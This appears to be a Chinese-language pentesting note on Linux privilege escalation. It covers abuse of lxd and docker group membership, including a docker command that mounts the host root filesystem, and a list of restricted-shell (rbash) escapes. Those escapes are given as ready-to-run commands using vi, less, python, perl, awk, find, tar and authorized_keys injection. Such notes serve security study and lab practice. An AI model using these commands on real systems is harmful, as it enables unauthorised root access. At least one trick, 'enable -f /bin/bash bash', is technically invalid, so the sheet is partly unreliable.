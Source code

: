 # lxd,docker,rbash

# lxd容器
提权条件:
以获得shell
用户属于lxd组(id查看)
也可用LinEnum脚本探测
![](vx_images/539149065512448.png)
步骤:创建容器,挂载磁盘,进入容器,进入目录提权


# docker(提权)---也就是利用docker容器外部提权,不是逃逸(逃逸有可能需要容器的root)
条件:用户权限是否在docker组中(id)
docker run -v /:/mnt -it alpine


# Rbash（Restricted Shell）
RBash 的限制机制
RBash 通常会限制以下操作：
cd 命令（无法切换目录）
设置/修改环境变量（如 PATH, SHELL）
使用绝对路径或包含 / 的命令
执行特定危险命令（如 ssh, vim）
重定向操作符（>, <, |）

usermod -s /bin/rbash user(对用户进行rbash限制)

绕过:
1. ​利用 Shell 内置命令
```
echo $PATH        # 查看当前 PATH
PATH=$PATH:/bin   # 添加 /bin（某些场景可修改）
```

2. ​利用程序逃逸功能
支持交互式命令的程序（如文本编辑器）：
```
# 使用 vi/vim
vi
:set shell=/bin/bash
:shell   # 获得完整 bash

或


# 使用 less/more
less /etc/passwd
! /bin/bash   # 启动新 shell
```

3. ​SSH 命令注入
通过 authorized_keys 注入命令（需写权限）：
```
# 在 authorized_keys 添加：
command="export PATH=/bin:$PATH; bash" ssh-rsa AAAAB3Nza...
```
4. ​编程语言解释器
```
# Python
python -c 'import os; os.system("/bin/bash")'

# Perl
perl -e 'exec "/bin/bash"'
```

5. ​环境变量污染
```
# 覆盖 SHELL 变量（某些实现有效）
export SHELL=/bin/bash
bash


# 通过环境变量带入命令
ENV_CMD="/bin/bash" 
$ENV_CMD
```
6. ​符号链接与文件操作
```
# 创建符号链接
ln -s /bin/bash /tmp/breakout
/tmp/breakout   # 执行
```

7. ​命令欺骗
```
# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find . -exec /bin/bash \;
```



8. ​内置命令绕过
```
# 使用 enable 命令重载
enable -f /bin/bash bash
bash
```
9. ​压缩工具逃逸
```
# 使用 tar
tar -cf /dev/null /dev/null --use-compress-program /bin/bash
```
